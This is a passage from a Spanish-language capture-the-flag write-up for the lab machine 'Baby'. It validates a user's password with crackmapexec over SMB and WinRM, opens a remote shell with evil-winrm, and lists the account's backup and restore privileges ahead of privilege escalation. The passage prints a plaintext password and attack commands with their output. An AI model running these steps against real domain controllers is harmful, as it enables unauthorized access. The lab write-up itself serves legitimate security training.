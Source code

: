 - Ahora vamos a ver si la contraseña es correcta.

```bash
➜  content crackmapexec smb baby.vl -u caroline.robinson -p 'NewPass$!xd'
SMB         baby.vl         445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         baby.vl         445    BABYDC           [+] baby.vl\caroline.robinson:NewPass$!xd
➜  content crackmapexec winrm baby.vl -u caroline.robinson -p 'NewPass$!xd'
SMB         baby.vl         5985   BABYDC           [*] Windows 10.0 Build 20348 (name:BABYDC) (domain:baby.vl)
HTTP        baby.vl         5985   BABYDC           [*] http://baby.vl:5985/wsman
WINRM       baby.vl         5985   BABYDC           [+] baby.vl\caroline.robinson:NewPass$!xd (Pwn3d!)
➜  content
```

- Cómo nos da un **Pwn3d!** en **winrm** podemos conectarnos empleando **evil-winrm**.

```bash
➜  content evil-winrm -i 10.10.88.84 -u caroline.robinson -p 'NewPass$!xd'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami
baby\caroline.robinson
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents>
```

## User flag

<p align="center">
<img src="https://i.imgur.com/n3kaWuQ.png">
</p>

## Privilege Escalation

- Vamos a ver los privilegios que tenemos como usuario.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop>
```
